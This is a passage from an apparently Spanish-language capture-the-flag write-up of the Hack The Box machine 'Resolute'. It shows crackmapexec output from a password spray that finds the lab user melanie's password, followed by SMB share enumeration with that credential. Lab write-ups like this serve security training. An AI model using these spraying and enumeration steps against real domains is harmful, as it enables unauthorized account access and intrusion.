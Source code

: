 ```bash
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\simon:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\naoki:Welcome123! STATUS_LOGON_FAILURE
```

## Shell as melanie

- Tenemos la contraseña del usuario **melanie** vemos que por **smb** solo tenemos acceso de **READ** a algunos recursos compartidos.

```bash
➜  content crackmapexec smb 10.129.96.155 -u melanie -p Welcome123! --shares
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
SMB         10.129.96.155   445    RESOLUTE         [+] Enumerated shares
SMB         10.129.96.155   445    RESOLUTE         Share           Permissions     Remark
SMB         10.129.96.155   445    RESOLUTE         -----           -----------     ------
SMB         10.129.96.155   445    RESOLUTE         ADMIN$                          Remote Admin
SMB         10.129.96.155   445    RESOLUTE         C$                              Default share
SMB         10.129.96.155   445    RESOLUTE         IPC$                            Remote IPC
SMB         10.129.96.155   445    RESOLUTE         NETLOGON        READ            Logon server share
SMB         10.129.96.155   445    RESOLUTE         SYSVOL          READ            Logon server share
```
